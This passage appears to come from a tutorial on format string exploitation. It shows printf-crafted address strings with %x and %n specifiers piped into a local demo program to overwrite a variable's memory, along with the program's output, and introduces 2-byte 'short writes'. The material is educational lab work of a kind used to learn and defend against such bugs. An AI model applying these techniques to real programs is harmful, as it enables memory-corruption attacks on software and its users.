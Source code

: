 To finish, we perform the fourth write here: 

`echo "$(printf '\x8c\xbe\xff\xff\x8d\xbe\xff\xff\x8e\xbe\xff\xff\x8f\xbe\xff\xff')%98x%5\$n%139x%6\$n%258x%7\$n%192x%8\$n" | ./demo`
```
����������������                                                                                          ffffd228                                                                                                                                    80491cc                                                                                                                                                                                                                                                          ffffbe90                                                                                                                                                                                               0


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = -1073742478 0xbffffd72
```


### 6) Short Writes

We can use 2-byte shorts to reduce the number of writes required to write a memory address. 

As the overflowed integer value past the end of the 2 byte short is dropped rather than written, the order of the writes doesn't matter. This means we could write to the higher memory address, then the lower one.

e.g.

`echo "$(printf '\x8c\xbe\xff\xff')%x%x%x%x%n" | ./demo`
```
����ffffd22880491ccffffbe900


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 28 0x0000001c
```

changing the memory address to write to the first 2 bytes:
`echo "$(printf '\x8e\xbe\xff\xff')%x%x%x%x%n" | ./demo`
```
����ffffd22880491ccffffbe900


Memory address of SHELL environment variable @ 0xffffd46e = 47 0x0000002f
Memory address of overwrite_me @  0xffffbe8c = 1835008 0x001c0000
```
